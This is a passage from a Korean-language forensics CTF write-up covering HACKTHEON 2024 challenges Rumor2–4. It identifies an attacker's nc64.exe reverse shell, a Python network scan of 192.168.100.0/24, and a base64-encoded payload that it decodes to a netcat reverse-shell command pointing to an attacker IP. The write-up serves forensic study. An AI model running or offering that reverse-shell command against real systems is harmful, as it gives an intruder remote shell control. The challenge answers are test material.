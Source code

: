 이 문제에서는 `nc64.exe`를 사용해 리버스 쉘을 생성하였다.

`nc64.exe`의 PID는 `3868`이다.

## 13. Forensic - Rumor3


세번째 파트는 공격자가 추가적인 공격을 위해 스캔한 네트워크 대역를 찾는 문제이다.

네트워크 스캔은 일반적으로 python 스크립트, nmap, ping 등을 사용한다.

![](/assets/img/hacktheon2024/image7.png)

이 문제에서는 `python netscan.py`를 이용해 `192.168.100.x`를 스캔하는 것을 알 수 있다. 이것을 CIDR 영역으로 나타내면 `192.168.100.0/24`이다.


## 14. Forensic - Rumor4

Attacker 페이로드 분석하던중 `bmMgMTkyLjE2OC4xMDAuMzIgNTQ1NCAtZSAvYmluL2Jhc2g=====`가 존재했다. 이를 base64 복호화 해보니 `nc 192.168.100.32 5454 -e /bin/bash` 형태가 존재했고 이것이 정답이다.
